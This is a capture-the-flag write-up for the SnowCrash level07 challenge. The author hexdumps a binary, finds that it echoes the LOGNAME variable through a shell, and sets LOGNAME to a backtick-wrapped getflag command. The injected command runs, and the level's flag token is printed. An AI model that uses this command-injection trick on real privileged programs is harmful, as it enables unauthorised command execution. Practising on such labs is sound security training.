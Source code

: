 # level07

We found a binary file in our home directory

If we run it we get this output

```
level07@SnowCrash:~$ ./level07
level07
```

We use hexdump we find out that the LOGNAME has to be involved somehow this matches with the output it gives us
which is the same as the LOGNAME
```
hexdump -C level07
..........................................................
00000630  55 89 e5 53 83 ec 04 a1  14 9f 04 08 83 f8 ff 74  |U..S...........t|
00000640  13 bb 14 9f 04 08 66 90  83 eb 04 ff d0 8b 03 83  |......f.........|
00000650  f8 ff 75 f4 83 c4 04 5b  5d c3 90 90 53 83 ec 08  |..u....[]...S...|
00000660  e8 00 00 00 00 5b 81 c3  8f 19 00 00 e8 1f fe ff  |.....[..........|
00000670  ff 83 c4 08 5b c3 00 00  03 00 00 00 01 00 02 00  |....[...........|
00000680  4c 4f 47 4e 41 4d 45 00  2f 62 69 6e 2f 65 63 68  |LOGNAME./bin/ech|
00000690  6f 20 25 73 20 00 00 00  01 1b 03 3b 30 00 00 00  |o %s ......;0...|
000006a0  05 00 00 00 28 fd ff ff  4c 00 00 00 7c fe ff ff  |....(...L...|...|
000006b0  70 00 00 00 18 ff ff ff  90 00 00 00 88 ff ff ff  |p...............|
000006c0  cc 00 00 00 8a ff ff ff  e0 00 00 00 14 00 00 00  |................|
000006d0  00 00 00 00 01 7a 52 00  01 7c 08 01 1b 0c 04 04  |.....zR..|......|
..........................................................
```
We try changing the logname variable value

```
level07@SnowCrash:~$ export LOGNAME="\`getflag\`"
```
The ` charactes are necessary so that instead of running it as a string it runs as
a command

```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

```
Voila, we get the next flag token :)
